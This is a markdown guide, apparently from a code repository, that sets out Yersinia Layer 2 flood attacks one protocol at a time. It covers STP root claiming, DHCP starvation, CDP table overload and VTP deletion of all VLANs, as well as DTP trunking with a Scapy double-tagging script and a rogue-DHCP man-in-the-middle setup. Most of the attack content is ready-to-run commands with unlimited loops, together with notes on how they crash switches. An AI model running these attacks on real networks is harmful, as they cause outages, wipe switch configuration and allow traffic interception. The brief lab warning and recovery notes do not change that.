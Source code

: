 ⚠️ **Warning**: Even in isolated environments, full-volume Layer 2 flooding can:

* Crash virtual and physical switches (especially older Cisco devices)
* Trigger broadcast storms and CPU lock-ups
* Disrupt even the attacker's NIC if the kernel can't handle the load

---

## 🎯 Yersinia Full-Flood Attacks Per Protocol

---

### 🌀 **STP (Spanning Tree Protocol)**

#### 📍 Attack: **BPDU Flood & Root Claim**

Yersinia floods BPDUs with low bridge IDs to **become Root Bridge**, or floods to disrupt topology.

#### 🔧 Command (No Rate Limit):

```bash
sudo yersinia -I
```

→ Press `G` → Select STP
→ Press `X` → Choose attack: `Send BPDU with lowest priority (claim root)`
→ Repeat rapidly with `Enter` or script:

```bash
sudo yersinia stp -attack 1 -interface eth0 -loop 100000
```

#### 🔥 Effect:

* Switches may re-elect attacker as Root every few ms
* Topology flaps continuously → **high CPU** on L2 devices
* May cause **intermittent or total LAN outage**

---

### 🧨 **DHCP Starvation**

#### 📍 Attack: **DISCOVER Flood (Exhaust DHCP Pool)**

#### 🔧 Command:

```bash
sudo yersinia dhcp -attack 1 -interface eth0 -loop 100000
```

* Attack 1 = `DISCOVER Flood`
* Use `-loop` to remove limits

#### 🔥 Effect:

* DHCP server runs out of leases
* New victims can't connect to network
* Causes serious degradation in VM networks (even on VirtualBox/VMware)

---

### 🚩 **CDP Flood**

#### 📍 Attack: **CDP Neighbor Table Overload**

#### 🔧 Command:

```bash
sudo yersinia cdp -attack 1 -interface eth0 -loop 100000
```

* Attack 1 = CDP advertisement
* Each packet spoofs a new device (random hostname/MAC)

#### 🔥 Effect:

* Cisco switch neighbor table fills → old entries purged
* Logs spammed → sometimes causes memory leak / crash on small switches

---

### 🧼 **VTP Delete All VLANs**

#### 📍 Attack: **VTP Vlan Delete**

#### ⚠️ Dangerous:

```bash
sudo yersinia vtp -attack 2 -interface eth0
```

* Attack 2 = Delete all VLANs on trunked switch
* Will **erase VLAN DB** on VTP server (CatOS/IOS)

#### 🔥 Effect:

* Segmentation failure
* All VLANs disappear → traffic drops
* Requires manual recovery (`vlan.dat`)

---

### 🧰 **DTP Trunk Attack + VLAN Hopping**

#### 📍 Step 1: Enable Trunking

```bash
sudo yersinia dtp -attack 1 -interface eth0
```

Now your attacker port becomes a trunk.

#### 📍 Step 2: Send double-tagged packets

Use Scapy or custom tool to craft **double 802.1Q headers**:

```python
from scapy.all import *

frame = Ether(dst="ff:ff:ff:ff:ff:ff") / \
        Dot1Q(vlan=1) / \
        Dot1Q(vlan=20) / \
        IP(dst="192.168.20.1") / \
        ICMP()

sendp(frame, iface="eth0", count=100000)
```

#### 🔥 Effect:

* Bypasses VLAN segregation if native VLANs are misconfigured
* Triggers logging overload or forwarding loops

---

### 🧠 Advanced: Combine DHCP Starvation + Rogue Server + MITM

1. Launch Yersinia DHCP starvation flood (as above)
2. Start rogue DHCP server (e.g., using `dnsmasq` or `dhcpd`)
3. Set attacker as:

   * Gateway: `option routers`
   * DNS: `option domain-name-servers`
4. Victim gets poisoned config → All traffic routes through attacker

---

## 🧪 Traffic Verification

Use `tcpdump` to confirm attack load:

```bash
sudo tcpdump -i eth0 stp or dhcp or vlan
```

Use `htop` or `iftop` to see CPU/NIC load in real time.

---

## 🧯 Recovery & Safety

* Reboot affected VMs or switches
* Delete `/etc/dhcp/dhcpd.leases` if DHCP breaks
* Restart `NetworkManager` on Linux victims
* Use `brctl showstp` or `spanning-tree` commands on switches to confirm new root

---

## 🧰 Optional Tools to Amplify

| Tool        | Role                                  | Use With Yersinia? |
| ----------- | ------------------------------------- | ------------------ |
| `scapy`     | Craft custom VLAN/MPLS/802.1x         | Yes                |
| `ettercap`  | Combine MITM with STP/DHCP            | Yes                |
| `tcpreplay` | Replay attack PCAPs at full line rate | Yes                |
| `macof`     | Flood switch with fake MACs           | Yes                |

---

## 📌 Summary: “Go Full Flood” Map

| Protocol | Flood Attack            | Tool             | Confirmed Crash Behavior            |
| -------- | ----------------------- | ---------------- | ----------------------------------- |
| STP      | Claim root + BPDU flood | Yersinia         | Switch CPU 100%, packet loss        |
| DHCP     | Starvation              | Yersinia         | IP exhaustion, service crash        |
| CDP      | Table overflow          | Yersinia         | CDP daemon crash on older Cisco     |
| VTP      | Delete all VLANs        | Yersinia         | Permanent config loss               |
| DTP      | Enable trunk, send tags | Yersinia + Scapy | VLAN isolation failure              |
| MAC      | MAC flood               | macof            | CAM table overflow, broadcast storm |

---
